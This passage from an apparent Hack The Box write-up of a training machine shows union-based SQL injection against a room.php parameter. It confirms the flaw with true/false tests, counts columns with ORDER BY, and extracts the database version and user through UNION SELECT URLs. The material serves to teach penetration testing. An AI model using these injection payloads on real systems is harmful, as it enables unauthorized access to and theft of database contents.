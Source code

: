 
We can verify this by using `true` and `false` clause. For example
```url
http://10.10.10.143/room.php?cod=1 and 1=1-- -
```
The above URL results in the true and true clause resulting in a true result overall and the room is returned. But if we use a `true` and `fasle` clause like the following one:
```
http://10.10.10.143/room.php?cod=1 and 1=2-- -
```
This results in a false value which fails to return the room.

### SQL Injection
Now that we confirmed SQL Injection, let's try to extract Information through a union based SQL Injecation. We can use `ORDER BY` keyword to find the number of columns
```
http://10.10.10.143/room.php?cod=1 ORDER BY 3
```
The above URL return room which means the table has either `3` columns or more. On Incrementing the value by `1` each time, we find that no room is return for value `8` which means that the table has `7` columns.

Now, we can use `UNION` based queries to find the `injectable` columns.
```
http://10.10.10.143/room.php?cod=-1 UNION SELECT 1,2,3,4,5,6,7
```
We use a negative value or the value that doesn't exist to prevent the room being selected over our values. Trying the above URL returns.

![](/assets/images/htb-writeup-jarvis/inject.png)

We see the values `5,2,3,4` in the output which can be used for injection. Le'ts check the database version we can use `database()` function or `@@version` in for `microsoft/mysql` DB. we can also see the `user` with whoam the database is running as using `user()`.
```
    http://10.10.10.143/room.php?cod=-1 UNION SELECT 1,@@version,user(),4,5,6,7
```